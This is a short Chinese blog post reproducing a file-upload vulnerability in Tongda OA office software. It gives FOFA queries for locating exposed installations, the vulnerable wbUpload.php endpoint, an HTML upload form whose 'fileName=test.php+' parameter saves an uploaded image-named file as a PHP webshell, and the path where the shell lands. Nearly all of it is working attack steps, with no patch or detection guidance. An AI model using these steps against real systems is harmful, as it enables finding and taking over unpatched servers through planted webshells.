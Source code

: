 ﻿---
layout: post
title: 漏洞复现：通达oa文件上传
date: 2019-10-06
categories: blog
tags: [漏洞复现，通达oa]
description: 漏洞复现：通达oa
---

>fofa搜索
`title="网络智能办公管理系统"`
`app="通达OA"`

>测试是否存在上传漏洞
访问`[ip地址:端口]/general/vmeet/wbUpload.php`
响应200，则可能存在漏洞
![](https://upload-images.jianshu.io/upload_images/15634342-e6e853aa9618806b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

>上传脚本
```
<form enctype="multipart/form-data" action="ip+端口/general/vmeet/wbUpload.php?fileName=test.php+" method="post">

<input type="file" name="Filedata" size="50"><br>

<input type="submit" value="Upload">

</form>
```
>以ma.jpg形式上传，上传后自动帮你重命名为test.php，真是神奇，大概率存在其他洞洞
上传成功后webshell路径为
`ip+端口/general/vmeet/wbUpload/test.php`













